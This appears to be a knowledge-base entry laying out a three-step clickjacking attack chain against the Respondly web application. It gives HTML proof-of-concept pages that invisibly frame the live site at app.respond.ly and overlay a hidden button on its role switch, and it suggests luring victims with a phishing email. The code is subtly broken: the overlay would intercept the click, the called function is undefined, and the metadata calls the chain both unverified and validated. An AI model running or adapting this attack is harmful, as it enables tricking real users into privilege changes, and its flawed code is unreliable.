

---
tags:
  - clickjacking
  - x-frame-options
  - privilege-escalation
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Embed-Target-in-Iframe]]'
  - '[[procedures/Overlay-Invisible-Button-on-Role-Switch]]'
  - '[[procedures/Induce-Click-to-Trigger-Role-Change]]'
step_count: 3
techniques:
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T17:28:04.775Z'
description: >-
  A clickjacking attack exploiting the lack of X-Frame-Options header in
  Respondly to invisibly frame the application and trick users into changing
  their roles, leading to unauthorized privilege escalation.
skill_level: intermediate
impact_level: high
id: a44cc8f7-1fef-4f80-8bf2-05e2258b7e2d
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
---
# Clickjacking in Respondly to Manipulate User Roles

Multi-stage attack chain demonstrating a complete clickjacking workflow to trick users into unintended role changes in the Respondly web application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses basic HTML and browser)

### Target Environment

- Web platform
- Access to Respondly at https://app.respond.ly
- No specific services/ports required beyond HTTP/HTTPS

### Initial Access Requirements

- Ability to host or serve a malicious HTML page (e.g., local file or web server)
- User interaction required (tricking victim to visit the page)
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Embed Target in Iframe
procedure: [[procedures/Embed-Target-in-Iframe]]

**Objective**: Load the Respondly application into an iframe without restrictions to prepare for overlay manipulation.

**Instructions**: Create a basic HTML page and embed the target URL using an iframe tag with full dimensions.

```html
<!DOCTYPE html>
<html>
<head><title>Clickjacking PoC</title></head>
<body>
<iframe src="https://app.respond.ly" width="100%" height="100%" style="border:none; margin:0; padding:0;"></iframe>
</body>
</html>
```

**Expected Output**: The Respondly application loads fully within the iframe on the page.

**Success Indicators**:
- Iframe loads without errors or framing restrictions
- Application interface is visible initially

### Step 2: Make Iframe Invisible and Overlay Button
procedure: [[procedures/Overlay-Invisible-Button-on-Role-Switch]]

**Objective**: Hide the iframe and position an invisible button over the role-switching element to enable undetected interaction.

**Instructions**: Modify the HTML to set iframe opacity to zero and add a positioned button overlaying the role switch area (typically at specific coordinates based on inspection).

```html
<!DOCTYPE html>
<html>
<head><title>Clickjacking PoC</title></head>
<body style="margin:0; padding:0;">
<iframe id="target" src="https://app.respond.ly" width="100%" height="100%" style="opacity:0; border:none; position:absolute; top:0; left:0;"></iframe>
<button id="fake" style="position:absolute; top:200px; left:300px; width:100px; height:30px; opacity:0; z-index:1;" onclick="changeRole()">Click Me (Invisible)</button>
</body>
</html>
```
(Adjust top/left coordinates via browser dev tools to align with role switch element.)

**Expected Output**: Iframe is invisible, button is transparent and positioned correctly over the target element.

**Success Indicators**:
- Iframe content loads but is not visible
- Button click registers without visual cues

### Step 3: Trick User into Clicking
procedure: [[procedures/Induce-Click-to-Trigger-Role-Change]]

**Objective**: Lure the user to click the overlaid button, triggering the role change in the hidden iframe.

**Instructions**: Host the page and entice the victim to interact (e.g., via phishing email claiming a 'free trial signup'). The click on the invisible button propagates to the iframe's role switch.

No specific code; relies on social engineering to get the click. Monitor via network inspection or victim feedback for role change confirmation.

**Expected Output**: User's role in Respondly changes without their awareness (e.g., from user to admin).

**Success Indicators**:
- Network requests show role update API calls
- Victim's session reflects escalated privileges

## Attack Chain Summary

### Key Achievements

1. Successfully framed Respondly despite no X-Frame-Options protection
2. Created invisible overlay to hijack user clicks on role switch
3. Demonstrated potential for unauthorized privilege escalation via UI manipulation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2024-10-01T00:00:00Z*
